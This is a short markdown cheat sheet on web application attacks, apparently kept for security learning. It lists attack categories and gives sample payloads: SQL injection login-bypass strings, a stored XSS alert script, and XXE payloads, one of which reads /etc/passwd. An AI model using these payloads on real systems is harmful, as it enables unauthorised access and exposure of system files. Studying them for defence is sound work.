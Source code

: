 # Web Applications Attacks

## Table of Contents

- [Description](#description)
- [Types of Attacks](#types-of-attacks)
  - Attacks based on directories
  - Injections & inclusions
  - Information exposure
  - Authentication, sessions & cookies
  - Data verification & purification
  - Sniffing
  - Buffer overflow & Denial of service (DoS)
- [Practical SQLInject Tricks](#practical-sqlinject-tricks)
- [Resources](#resources)

## Description

This article deals with common web attacks and aims at making people aware of these attacks in order that they better code their applications. Each of these attacks is going to be explained, theoretically and practically and a way to patch your applications is also given.

Source: <https://www.aldeid.com/wiki/Web-applications-attacks>

## Types of Attacks

### Attacks based on directories

- Path disclosure
- Directory traversal
- Directory listening
- Predictable files and directories
- .htaccess vulnerabilities

### Injections & inclusions

- XXE
- Cross Site Scripting (XSS)
  - Stored XSS
- Cross Site Request Forgery (CSRF or XSRF)
- Cross Site Tracing (XST)
- Local File Inclusion (LFI)
- Remote File Inclusion (RFI)
- SQL Injection
- Command Injection
- Server Side Includes (SSI)

### Information exposure

- HTML comments inspection
- Display errors]]
- Exceptions exploitation
- Configuration weaknesses

### Authentication, sessions & cookies

- .htaccess vulnerabilities
- Authentication brute-force
- Predictable sessions & session hijacking
- Weak encryption
- Cookie injection / cookie poisoning

### Data verification & purification

- Client-Side vs server-side verifications
- Client Side data
- Data purification
- HTTP splitting

###Sniffing

- Intercept data over the network

### Buffer overflow & Denial of service (DoS)

- Buffer overflow
- Denial of Service (DoS)
- Concurrency

## Practical SQLInject Tricks

Source: <https://sechow.com/bricks/docs/login-1.html>

| User name | Password | SQL Query |
|---|---|---|
| `tom` | `tom` | `SELECT * FROM users WHERE name='tom' and password='tom'` |
| `tom` | `' or '1'='1` | `SELECT * FROM users WHERE name='tom' and password='' or '1'='1'` |
| `tom` | `' or 1='1` | `SELECT * FROM users WHERE name='tom' and password='' or 1='1'` |
| `tom` | `1' or 1=1 -- -` | `SELECT * FROM users WHERE name='tom' and password='' or 1=1-- -'` |
| `' or '1'='1` | `' or '1'='1` | `SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1'` |
| `' or ' 1=1` | `' or ' 1=1` | `SELECT * FROM users WHERE name='' or ' 1=1' and password='' or ' 1=1'` |
| `1' or 1=1 -- -` | `blah` | `SELECT * FROM users WHERE name='1' or 1=1 -- -' and password='blah'` |

## Stored XXS

A nice playground on TryHackMe: <https://tryhackme.com/room/xss>

A script that is stored into the database. Each user visiting the website will execute the script.

````javascript
<script>alert("Warning!!!")</script>
````

## XXE payload

Display whatever data we want to display. In this example it will print out `falcon feast`.

````xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
````

Display the content of a file on the system. In this example the `/etc/passwd` file on a Linux system.

````xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
````

## Resources

- [OWASP Top 10](https://owasp.org/www-project-top-ten/) Application Security Risks
- [CWE/SANS TOP 25 Most Dangerous Software Errors](https://www.sans.org/top25-software-errors/)
- [Mitre - 2021 CWE Top 25 Most Dangerous Software Weaknesses](https://cwe.mitre.org/top25/archive/2021/2021_cwe_top25.html)
- `[STRIDE]` and `[DREAD]`
- [PayloadAllThinkgs - LFI examples](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks)
